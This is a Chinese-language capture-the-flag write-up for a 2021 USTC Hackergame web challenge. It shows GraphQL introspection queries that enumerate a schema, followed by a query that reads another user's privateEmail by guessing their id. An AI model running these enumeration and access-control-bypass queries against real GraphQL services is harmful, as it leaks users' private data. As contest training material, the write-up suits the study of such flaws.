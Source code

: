 ```yaml
---
title: Web - 图之上的信息
description: 2021 | 中国科学技术大学第八届信息安全大赛 | Web
---
```


## 题目

小 T 听说 GraphQL 是一种特别的 API 设计模式，也是 RESTful API 的有力竞争者，所以他写了个小网站来实验这项技术。

你能通过这个全新的接口，获取到没有公开出来的管理员的邮箱地址吗？

## 解题思路

- 使用测试账号登录：`guest`/`guest`<br>
![登录以查看笔记](img/info_above_graph01.jpg)
- 登录后提示 `Flag 是 admin 的邮箱`，界面只有 `退出` 按钮，GraphQL 接口呢？(ŏωŏ)<br>
![你的笔记](img/info_above_graph02.jpg)
- 查看网络请求，发现了向 GraphQL 接口发送的 POST 请求

    URL | http://202.38.93.111:15001/graphql
    -|-
    Method | POST
    Data | `{"query":"{ notes(userId: 2) { id\ncontents }}"}`
    Response | `{"data":{"notes":[{"id":2,"contents":"Flag 是 admin 的邮箱。"}]}}`

- 要使用 GraphQL 必须知道可查询的字段，首先了解一下接口可用的 `schema`
    
    ```bash
    {
        __schema {
            types {
                name
            }
        }
    }

    # {"query": "{__schema {types {name}}}"}
    ```

- 类型 `GNote` 和 `GUser` 是需要使用的<br>
![schema](img/info_above_graph03.jpg)
- 要获得 admin 的邮箱，邮箱字段应该与用户相关，查看类型 `GUser` 的详细信息 

    ```bash
    {
        __type(name: "GUser") {
            name
            fields {
                name
                type {
                    name
                    kind
                }
            }
        }
    }

    # {"query": "{__type(name: \"GUser\"){name\nfields{name\ntype{name\nkind}}}}"}
    ```

    ![privateEmail](img/info_above_graph04.jpg)

- 类型字段获取完毕！接下来看看可用查询

    ```bash
    {
        __schema {
            queryType {
                fields {
                    name
                    description
                    args {
                        name
                    }
                }
            }
        }
    }

    # {"query": "{__schema{queryType{fields{name\ndescription\nargs{name}}}}}"}
    ```

    ![user](img/info_above_graph05.jpg)

- `guest` 用户 `id` 为 2，推断 `admin` 用户的 `id` 为 1

    ```bash
    {
        user(id: 1) {
            privateEmail
        }
    }

    # {"query": "{user(id: 1){privateEmail}}"}
    ```

- 成功获得 Flag！<br>
![flag{dont_let_graphql_l3ak_data}](img/info_above_graph06.jpg)